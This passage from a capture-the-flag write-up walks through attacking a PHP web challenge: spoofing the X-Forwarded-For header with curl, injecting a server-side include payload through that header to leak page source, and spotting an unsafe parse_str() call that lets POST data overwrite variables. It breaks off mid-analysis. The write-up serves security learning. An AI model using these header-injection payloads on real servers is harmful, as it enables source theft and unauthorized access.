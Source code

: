 Once we know that the challenge is hosted internally at `127.0.1.1`, port `13337`, we can try to use the `X-Forwarded-For` header to trick the server into believing that our original IP is `127.0.1.1`.

```Bash
$ curl -b 'PHPSESSID=qloervi3nq447sdlukt2cp0g29' -H 'X-Forwarded-For: 127.0.0.1' http://31.22.123.49:1908/internal/admin
...
<div class="main">
        <div class="custom_tooltip">You're not admin.<span class="custom_tooltiptext">127.0.0.1, 128.130.112.21 isn't admins IP.</span></div>
</div>
```

The header is successfully parsed and the IP reflected back into the page, but no admin privileges are granted.

After hours of random attempts, we figured out that it was possible to perform a [SSI](https://en.wikipedia.org/wiki/Server_Side_Includes) injection (thanks Jan!) to leak the PHP source code of all the pages of the website.

```Bash
$ curl -b 'PHPSESSID=qloervi3nq447sdlukt2cp0g29' -H 'X-Forwarded-For: <!--#include virtual="admin.phps" -->' http://31.22.123.49:1908/internal/admin
```

It's enough to repeat the process for all the pages to reconstruct the [entire code base](src/). Notice that the server prevents us from accessing files that are located outside of the current directory, so we can't read the following files: `../config.php`, `../db_config.php`, `../db_credentials.php`.

Digging deeper
--------------
The sources are a constellation of bad security practices that is even surprising that the application is actually working. Sadly, this does not mean that the application can be easily exploited. As an example, we report some of the security pitfalls that can be easily spotted.

From `login.php`:

```PHP
// We had some issues with double encoded values. This fixed it.
$parmas = parse_str(urldecode(file_get_contents("php://input")));
```

Here the [`parse_str()`](https://www.php.net/manual/en/function.parse-str.php) function is used to parse the body of the POST request. The PHP documentation clearly states that 

> Warning
> Using this function without the result parameter is highly DISCOURAGED and DEPRECATED as of PHP 7.2.
> Dynamically setting variables in function's scope suffers from exactly same problems as register_globals.
> Read section on security of Using Register Globals explaining why it is dangerous.

Basically we can set and overwrite variables by passing them over POST requests.

From `register.php`:

